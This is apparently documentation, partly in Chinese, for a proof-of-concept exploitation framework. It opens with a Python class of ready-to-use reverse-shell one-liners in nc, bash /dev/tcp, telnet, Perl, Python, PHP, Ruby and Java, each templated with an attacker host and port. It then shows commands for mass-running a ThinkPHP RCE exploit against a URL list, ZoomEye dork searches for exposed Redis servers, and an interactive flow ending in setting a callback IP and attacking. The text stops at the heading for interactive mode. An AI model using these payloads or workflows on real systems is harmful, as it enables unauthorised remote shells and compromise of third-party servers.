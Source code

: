 ```python
class REVERSE_PAYLOAD:
    NC = """rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {0} {1} >/tmp/f"""
    NC2 = """nc -e /bin/sh {0} {1}"""
    NC3 = """rm -f /tmp/p;mknod /tmp/p p && nc {0} {1} 0/tmp/p"""
    BASH = """sh -i >& /dev/tcp/{0}/{1} 0>&1"""
    BASH2 = """sh -i &gt;&amp; /dev/tcp/{0}/{1} 0&gt;&amp;1"""
    TELNET = """rm -f /tmp/p; mknod /tmp/p p && telnet {0} {1} 0/tmp/p"""
    PERL = """perl -e 'use Socket;$i="{0}";$p={1};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){{open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");}};'"""
    PYTHON = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{0}",{1}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"""
    PHP = """php -r '$sock=fsockopen("{0}",{1});exec("/bin/sh -i <&3 >&3 2>&3");'"""
    RUBY = """ruby -rsocket -e'f=TCPSocket.open("{0}",{1}).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'"""
    JAVA = """
    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/{0}/{1};cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()
    """
```



**注意：** 

#### 多线程模式

**--threads THREADS** 

使用多线程模式默认是使用单线程模式也就是线程数是1

```
python cli.py -r pocs/thinkphp_rce2.py -f url.txt --verify --threads 10
```

**--dork DORK**

ZoomEye 接口,通过特定指纹匹配进行验证或者攻击

```
python cli.py --dork 'port:6379' --vul-keyword 'redis' --max-page 2
```

### 交互式 Shell方式

#### 攻击流程

```flow
st=>start: 进入交互模式
search=>operation: 搜索 PoC (search thinkphp)
userpoc=>operation: 使用PoC (use pocs/thinkphp_rce2)
showoption=>operation: 查看选项 (show options)
settarget=>operation: 设置目标 (set target url)
check=>operation: 验证 (check)
showip=>operation: 显示本地ip(show ip)
bakip=>operation: 设置反弹ip(set lhost ip)
cond=>condition: verify or attack ?
attack=>operation: 攻击 (attack)
e=>end
st->search->userpoc->settarget->cond
cond(yes)->check->e
cond(no)->showip->bakip->attack->e
```
#### 进入交互模式
